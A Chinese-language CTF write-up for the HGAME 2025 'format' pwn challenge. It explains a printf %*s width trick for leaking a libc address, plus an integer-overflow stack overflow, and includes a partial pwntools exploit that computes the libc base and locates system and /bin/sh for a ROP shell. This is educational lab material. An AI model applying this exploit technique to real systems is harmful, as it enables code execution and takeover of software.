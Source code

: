 + <font style="color:rgb(22, 18, 9);">Width 字段指定要输出的最小字符数，通常用于填充表格输出中的固定宽度字段，否则字段会更小，尽管它不会导致超大字段的截断。</font>
+ <font style="color:rgb(22, 18, 9);">宽度字段可以省略，也可以省略数字整数值，或者作为另一个参数传递时由星号 * 表示的动态值。</font>

<font style="color:rgb(22, 18, 9);">例如，</font>`<font style="color:rgb(22, 18, 9);">printf("%*d", 5, 10)</font>`<font style="color:rgb(22, 18, 9);">将导致打印 ”10“，总宽度为 5 个字符。假如一个格式化参数是</font>`<font style="color:rgb(22, 18, 9);">%*d</font>`<font style="color:rgb(22, 18, 9);"> ，</font>`<font style="color:rgb(22, 18, 9);">*</font>`<font style="color:rgb(22, 18, 9);">代表第二个参数，控制输出的宽度，这个参数在调用约定中所使用的寄存器是rsi，通常rsi是有内容的，比如栈上某一个地址，这个时候，输出字符串的宽度就会很大，会填满缓冲区，这里用到了对于_IO_padn这个函数对.vfprintf的一些跳转和定义，而在这里，填满缓冲区之后，再输入%s，就会输出栈上的内容，进而能够让我们去泄露libc，从而进行后续ROP链的构造，甚至能够直接让我们getshell</font>

#### HGAME 2025 Week1 format
先是 checksec：

![](/images/50d81a84e99bf3696f007c87c0e42e91.png)

没有 canary、PIE，开了 NX

再看 IDA：

![](/images/194cbf11377559406f4e59e021e58a9a.png)

发现了限制 3 个字节的格式化字符串，还有整型溢出（错误的类型转换 int 转 unsigned int），这个被转换的还是 vuln 函数里面 read 的读取长度，妥妥的栈溢出

在 print 格式化字符串之前看了看 RSI 里存着的地址：

![](/images/b665f3e31287fc0634f4bb8424beeb9b.png)

> a few moments later (
>

在`printf("%*s")`之后发现栈上这个位置变成 libc 里面`_IO_2_1_stdin_`的地址了，

原因是 printf 打印出超过缓冲区的大小的字符串会动到栈上的内容

![](/images/1e17ac7589aae948082747746f94922b.png)

自己手动算一下动调时候`_IO_2_1_stdin_`相对于 libc 基址（这里的基址我用 vmmap 看的好像不准，后面看别的函数的地址算出来基址之后再看的这个偏移）的偏移，用于计算 libc 基址

再`printf("%s")`就可以把`_IO_2_1_stdin_`的地址打印出来了，再利用后面的错误类型转换栈溢出 ROP 就可以 getshell 了

exp：

```python
#!/usr/bin/env python3
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
link=process("./format")
libc=ELF('./libc.so.6')

link.recvuntil(b'=')
link.sendline(b'2')

link.recvuntil(b':')
link.sendline(b'%*s')

# gdb.attach(link,"b vuln")
# pause()

link.sendlineafter(b':',b'%s')
IOstdin=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base=IOstdin-0x21aaa0
print(hex(libc_base))

system=libc_base+libc.sym['system']
binsh=libc_base+next(libc.search(b'/bin/sh'))
```